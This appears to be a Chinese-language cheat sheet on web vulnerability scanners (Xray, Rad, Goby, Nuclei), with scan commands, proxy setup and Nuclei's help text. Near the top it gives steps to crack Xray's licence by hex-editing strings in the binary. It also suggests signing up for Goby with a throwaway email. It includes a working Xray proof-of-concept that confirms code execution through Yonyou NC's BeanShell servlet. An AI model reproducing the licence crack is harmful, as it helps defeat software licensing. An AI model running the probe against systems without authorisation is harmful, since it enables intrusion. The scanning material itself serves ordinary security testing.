

### 一、扫描工具

<br/>

1. Xray
   
   主页：`https://github.com/chaitin/xray`
   
   破解：
   ```text
   使用二进制编辑器，搜索程序十六进制码，任意修改一个字符（以下3选1）
   
   43 4F 4D 4D 55 4E 49 54 59
   434F4D4D554E495459
   COMMUNITY
   
   41 4F 4D 4D 55 4E 49 54 59
   AOMMUNITY
   
   41 44 56 41 4E 43 45 44 44
   ADVANCEDD
   
   ```
   - 使用
     
     A、爬虫模式
     
     完整命令
     
     `.\xray.exe webscan --basic-crawler http://test.com/ --html-output test.com-1.html`
     
     简化命令
     
     `.\xray.exe ws --basic http://test.com --ho test.com-2.html`
     
     B、被动扫描
     
     生成ca证书
     
     `.\xray.exe genca`   生成证书后安装到系统
     
     开启监听
     
     完整命令
     
     `.\xray.exe webscan --listen 127.0.0.1:7899 --html-output test.com.html`
     
     简化命令
     
     `.\xray.exe ws --listen 127.0.0.1:7899 --ho test.com.html`
     
     <u>浏览器切换代理端口为7899</u>
     
     C、BurpSuite联动Xray
     
     
     
     `.\xray.exe ws --listen 127.0.0.1:7899 --ho test.com.html`
     
     添加上游代理端口，指定xray监听的端口
     
     D、Rad联动Xray
     
     (1)官网：`https://github.com/chaitin/rad/releases`
     
     (2)基本使用：
     
     `rad -t http://test.com`
     
     手动登录网站
     
     `rad -t http://test.com -wait-login` 执行此命令会打开浏览器等待登录，命令行回车完成登录
     
     (3)将爬取结果导出为文件：
     
     `rad -t http://test.com -text-output result.txt`
     
     (4)联动使用：
     
     `.\xray.exe ws --listen 127.0.0.1:7899 --ho result.html` 开启监听
     
     `.\rad.exe -t https://test.com --http-proxy 127.0.0.7899` 爬取监听端口
     
     (5)融合使用：
     
     xray高级版融合了rad爬虫
     
     `.\xray.exe ws --browser-crawler https://test.com --ho test.com.html`
   - POC编写
     
     文档：
     ```text
     https://docs.xray.cool/#/guide/
     https://stack.chaitin.com/techblog/detail?id=50
     ```
     
     辅助工具：`https://poc.xray.cool/`
     
     脚本实例：（poc-yaml-用友NC-bsh.servlet.BshServlet.yml）
     ```text
     name: poc-yaml-用友NC-bsh.servlet.BshServlet
     transport: http
     set:
       r3: randomInt(5000, 6000)
     rules:
       r0:
         request:
           method: GET
           path: /servlet/~ic/bsh.servlet.BshServlet
           follow_redirects: false
         expression: response.status == 200 && response.body.bcontains(bytes(string('BeanShell')))
       r1:
         request:
           cache: true
           method: POST
           path: /servlet/~ic/bsh.servlet.BshServlet
           follow_redirects: false
           headers:
             Content-Type: application/x-www-form-urlencoded
           body: bsh.script=print%28%22{{r3}}%22%29%3B
         expression: response.status == 200 && response.body.bcontains(bytes(string(r3)))
     expression: r0() && r1()
     detail:
       author: test
       links:
         - http://test.test
     ```
     
     使用POC检测漏洞：
     
     `.\xray.exe ws -p mypocs/poc-yaml-用友NC-bsh.servlet.BshServlet.yml -uf url.txt --ho yongyou-nc.com.html`
     
     漏洞复现案例：
     
     `https://cloud.tencent.com/developer/article/1839237`
2. Goby
   
   软件主页：`https://www.gobies.cn/`
   
   使用生成的虚拟邮箱注册：
   ```text
   https://tempail.com/en/
   https://www.gobies.cn/signUp
   ```
   
   扫描：`https://gobysec.net/features#%E6%89%AB%E6%8F%8F`
   
   漏洞：`https://gobysec.net/features#%E6%BC%8F%E6%B4%9E`
3. Nuclei
   
   网站：`https://github.com/projectdiscovery/nuclei`
   
   文档：`https://docs.projectdiscovery.io/introduction`
   
   中文文档：`https://github.com/projectdiscovery/nuclei/blob/main/README_CN.md`
   
   基本指令选项：
   ```text
   # nuclei -h
   
   用法：
     nuclei [命令]
   
   命令：
   目标：
      -u, -target string[]                 指定扫描的URL/主机
      -l, -list string                     指定需要扫描的URL/主机文件（一行一个）
   
   模板：
      -t, -templates string[]              指定需要扫描的模板或者模板的路径
      -nt, -new-templates                  只扫描最新版本中添加的模板
      -w, -workflows string[]              指定扫描中的工作流或者工作流目录
      -validate                            验证通过的模板
      -tl                                  列出所有可用的模板
   
   过滤：
      -tags string[]                       执行有标记的模板子集
      -etags, -exclude-tags string[]       执行标记为排除的模板
      -itags, -include-tags string[]       不执行具有攻击性的模板
      -et, -exclude-templates string[]     要排除的模板或者模板目录
      -it, -include-templates string[]     执行默认或配置中排除的模板
      -s, -severity value[]                根据严重程度运行模板，可候选的值有：info,low,medium,high,critical   
      -es, -exclude-severity value[]       根据严重程度排除模板，可候选的值有：info,low,medium,high,critical   
      -a, -author string[]                 执行指定作者的模板
   
   输出：
      -o, -output string                   输出发现的问题到文件
      -silent                              只显示结果
      -nc, -no-color                       禁用输出内容着色（ANSI转义码）
      -json                                输出为jsonL（ines）
      -irr, -include-rr                    在JSONL中输出对应的请求和相应（仅结果）
      -nm, -no-meta                        不显示匹配的元数据
      -nts, -no-timestamp                  不在输出中显示时间戳
      -rdb, -report-db string              本地的Nuclei结果数据库（始终使用该数据库保存结果）       
      -me, -markdown-export string         以markdown导出结果
      -se, -sarif-export string            以SARIF导出结果
   
   配置：
      -config string                       指定Nuclei的配置文件
      -rc, -report-config string           指定Nuclei报告模板文件
      -H, -header string[]                 指定报告中的标题：value格式
      -V, -var value                       通过var=value指定var值
      -r, -resolvers string                指定Nuclei的解析文件
      -sr, -system-resolvers               当DNS错误时使用系统DNS
      -passive                             启用被动扫描处理HTTP响应
      -ev, env-vars                        在模板中使用环境变量
   
   交互：
      -inserver, -ineractsh-server string  使用interactsh反连检测平台（默认为"https://interact.sh"）
      -itoken, -interactsh-token string    指定反连检测平台的身份凭证
      -interactions-cache-size int         指定保存在交互缓存中的请求数（默认：5000）
      -interactions-eviction int           从缓存中删除请求前等待的时间（默认为60秒）
      -interactions-poll-duration int      每个轮询前等待时间（默认为5秒）
      -interactions-cooldown-period int    退出轮询前的等待时间（默认为5秒）
      -ni, -no-interactsh                  禁用反连检测平台，同时排除基于反连检测的模板
   
   限速：
      -r1, -rate-limit int                 每秒最大请求量（默认：150）
      -rlm, -rate-limit-minute int         每分钟最大请求量
      -bs, -bulk-size int                  每个模板最大并行检测数（默认：25）
      -c, -concurrency int                 并行执行的最大模板数量（默认：25）
   
   
   优化：
      -timeout int                         超时时间（默认为5秒）
      -retries int                         重试次数（默认：1）
      -mhe, -max-host-error int            某主机扫描失败次数，跳过该主机（默认：30）
      -project                             使用项目文件夹避免多次发送同一请求
      -project-path string                 设置特定的项目文件夹
      -spm, -stop-at-first-path            得到一个结果后停止（或许会中断模板和工作流的逻辑）
      -stream                              流模式 - 在不整理输入的情况下详细描述
   
   无界面浏览器：
       -headless                           启用需要无界面浏览器的模板
       -page-timeout int                   在无界面下超时秒数（默认：20）
       -sb, -show-brower                   在无界面浏览器运行模板时，显示浏览器
       -sc, -system-chrome                 不使用Nuclei自带的浏览器，使用本地浏览器
   
   调试：
       -debug                              显示所有请求和响应
       -debug-req                          显示所有请求
       -debug-resp                         显示所有响应
       -proxy, -proxy-url string           使用HTTP代理
       -proxy-socks-url string             使用SOCK5代理
       -tlog, -trace-log string            写入请求日志到文件
       -version                            显示版本信息
       -v, -verbose                        显示详细信息
       -vv                                 显示额外的详细信息
       -tv, -templates-version             显示已安装的模板版本
   
   升级：
       -update                             更新Nuclei到最新版本
       -ut, -update-templates              更新Nuclei模板到最新版
       -ud, -update-directory string       覆盖安装模板
       -duc, -disable-update-check         禁用更新
   
   统计：
       -stats                              显示正在扫描的统计信息
       -sj, -stats-json                    将统计信息以JSONL格式输出到文件
       -si, -stats-inerval int             显示统计信息更新的间隔秒数（默认：5）
       -m, -metrics                        显示Nuclei端口信息
       -mp, -metrics-port int              更改Nuclei默认端口（默认：9092）
   ```
   
   检测模板编写：`https://nuclei.projectdiscovery.io/templating-guide/`
   
   模板示例：`https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cnvd/2021/CNVD-2021-30167.yaml`
